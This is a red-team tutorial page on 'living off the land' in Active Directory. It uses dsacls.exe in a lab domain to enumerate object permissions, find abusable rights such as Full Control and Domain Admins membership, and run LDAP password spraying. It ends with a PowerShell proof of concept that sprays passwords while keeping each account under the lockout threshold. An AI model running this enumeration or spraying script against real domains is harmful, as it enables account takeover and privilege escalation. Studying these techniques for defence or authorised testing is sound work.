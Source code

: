 ```yaml
---
description: 'Enumeration, living off the land'
---
```


# Enumerating AD Object Permissions with dsacls

It is possible to use a native windows binary \(in addition to powershell cmdlet `Get-Acl`\) to enumerate Active Directory object security persmissions. The binary of interest is `dsacls.exe`.

Dsacls allows us to display or modify permissions \(ACLS\) of an Active Directory Domain Services \(AD DS\).

## Execution

Let's check if user `spot` has any special permissions against user's `spotless` AD object:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode %}

Nothing useful:

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-46-47.png)

Let's give user spot `Reset Password` and `Change Password` permissions on `spotless` AD object:

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-46-04.png)

...and try the command again:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-44-21.png)

### Full Control

All well known \(and abusable\) AD object permissions should be sought here. One of them is `FULL CONTROL`:

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "full control"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-54-36.png)

### Add/Remove self as member

{% code title="attacker@victim" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" | select-string "spotless"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-57-50.png)

### WriteProperty/ChangeOwnerShip

![](../../.gitbook/assets/screenshot-from-2019-03-19-23-00-04.png)

Enumerating AD object permissions this way does not come in a nice format that can be piped between powershell cmd-lets, but it's still something to keep in mind if you do not the ability to use tools like powerview or ActiveDirectory powershell cmdlets or if you are trying to `LOL`.

For more good privileges to be abused:

{% page-ref page="privileged-accounts-and-token-privileges.md" %}

{% page-ref page="abusing-active-directory-acls-aces.md" %}

## Password Spraying Anyone?

As a side note, the `dsacls` binary could be used to do LDAP password spraying as it allows us to bind to an LDAP session with a specified username and password:

{% code title="incorrect logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:1234567
```
{% endcode %}

![Logon Failure](../../.gitbook/assets/screenshot-from-2019-03-19-23-09-12.png)

{% code title="correct logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:123456
```
{% endcode %}

![Logon Successful](../../.gitbook/assets/screenshot-from-2019-03-19-23-09-59.png)

### Dirty POC idea for Password Spraying:

{% code title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-00-10-10.png)

## References

{% embed url="https://support.microsoft.com/en-gb/help/281146/how-to-use-dsacls-exe-in-windows-server-2003-and-windows-2000" %}



